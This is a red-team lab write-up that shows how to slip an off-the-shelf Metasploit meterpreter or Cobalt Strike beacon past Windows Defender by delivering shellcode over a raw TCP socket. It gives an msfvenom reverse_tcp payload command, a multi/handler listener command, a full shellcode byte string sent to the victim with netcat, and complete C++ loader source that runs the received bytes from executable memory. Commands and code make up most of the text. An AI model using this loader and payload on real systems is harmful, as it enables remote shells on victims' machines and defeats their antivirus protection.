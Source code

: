 # Bypassing Windows Defender: One TCP Socket Away From Meterpreter and Beacon Sessions

## Context

If you've tried executing an out of the box meterpreter payload on the box with Windows Defender, you know it may get picked up right away as can be seen in the below gif:

![](../../.gitbook/assets/peek-2019-05-07-21-40.gif)

This quick lab shows how I was able to execute the off the shelf meterpreter payload against the latest Windows Defender \(7th of May at the time of writing\) by delivering the shellcode over a TCP socket.

{% hint style="info" %}
**Works with Cobalt Strike Beacon**  
The demo uses metasploit's meterpreter payload, but I have tested this technique with Cobalt Strike beacon and it also bypasses the Windows Defender.
{% endhint %}

## Overview

The technique that allowed me to bypass Windows Defender is simple:

* Victim machine \(10.0.0.7\) opens up a listening TCP socket on on port 443 \(or any other\)
* Socket on the victim machine waits for incoming shellcode
* Attacking machine \(10.0.0.5\) connects to the victim socket and sends the shellcode as binary data
* Victim machine receives the shellcode, allocates executable memory and moves the shellcode there
* Victim machine executes the shellcode received over the network and initiates meterpreter \(or cobalt strike beacon\) second stage download
* Attacking machine serves the stage and catches the shell

## Execution

Let's write, compile a simple PoC C++ program \(see [Code](bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon.md#code) section\) that will do all of the steps explained in the overview section.

Let's execute it on the victim machine and check if the socket on port 443 has been opened:

{% code title="attacker@victim" %}
```csharp
netstat -nat | findstr /i listen | findstr /i 443
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-05-07-20-45-02.png)

Let's generate a staged meterpreter payload and output it to C format:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c > meterpreter.c
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-05-07-20-49-59.png)

Let's setup an msf handler to catch the meterpreter session on the attacking machine:

{% code title="attacker@kali" %}
```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-05-07-22-23-33.png)

We can now take the shellcode from the C file and echo it out as a binary data, pipe it to the victim machine \(where a TCP socket is listening on 443\) via netcat:

{% code title="attacker@kali" %}
```bash
echo -e "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\x0a\x00\x00\x05\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5" | nc 10.0.0.7 443
```
{% endcode %}

We are now ready to execute the attack. Below shows all of the above in action:

1. Cmd shell in the middle of the screen opens the TCP socket \(port 443\) on the victim machine
2. Windows Defender below the cmd shell shows the signatures are up to date
3. Top right - msfconsole is waiting and ready to send the second stage from the attacking system
4. Bottom right - attacker sends the shellcode to the victim over the wire via netcat
5. Top right - msfconsole serves the second stage to the victim and establishes the meterpreter session

![](../../.gitbook/assets/peek-2019-05-07-21-34.gif)

## Conclusion

Why this works? I can only speculate. I am a huge fan of Windows Defender and I think it is doing an amazing job at catching evil and I am sure this will be caught very soon.

## Code

```cpp
#include "pch.h"
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <iostream>
#include <Windows.h>
#pragma comment(lib, "ws2_32.lib")

int main()
{
	LPWSADATA wsaData = new WSAData();
	ADDRINFOA *socketHint = new ADDRINFOA();
	ADDRINFOA *addressInfo = new ADDRINFOA();
	SOCKET listenSocket = INVALID_SOCKET;
	SOCKET clientSocket = INVALID_SOCKET;
	CHAR bufferReceivedBytes[4096] = {0};
	INT receivedBytes = 0;
	PCSTR port = "443";

	socketHint->ai_family = AF_INET;
	socketHint->ai_socktype = SOCK_STREAM;
	socketHint->ai_protocol = IPPROTO_TCP;
	socketHint->ai_flags = AI_PASSIVE;

	WSAStartup(MAKEWORD(2, 2), wsaData);
	GetAddrInfoA(NULL, port, socketHint, &addressInfo);

	listenSocket = socket(addressInfo->ai_family, addressInfo->ai_socktype, addressInfo->ai_protocol);
	bind(listenSocket, addressInfo->ai_addr, addressInfo->ai_addrlen);
	listen(listenSocket, SOMAXCONN);
	std::cout << "Listening on TCP port " << port << std::endl;

	clientSocket = accept(listenSocket, NULL, NULL);
	std::cout << "Incoming connection..." << std::endl;
	
	receivedBytes = recv(clientSocket, bufferReceivedBytes, sizeof(bufferReceivedBytes), NULL);
	if (receivedBytes > 0) {
		std::cout << "Received shellcode bytes " << receivedBytes << std::endl;
	}
	
	LPVOID shellcode = VirtualAlloc(NULL, receivedBytes, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	std::cout << "Allocated memory for shellocode at: " << shellcode << std::endl;
	
	memcpy(shellcode, bufferReceivedBytes, sizeof(bufferReceivedBytes));
	std::cout << "Copied shellcode to: " << shellcode << std::endl << "Sending back meterpreter session...";
	((void(*)()) shellcode)();
	
	return 0;
}
```

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/ws2tcpip/nf-ws2tcpip-getaddrinfo" %}



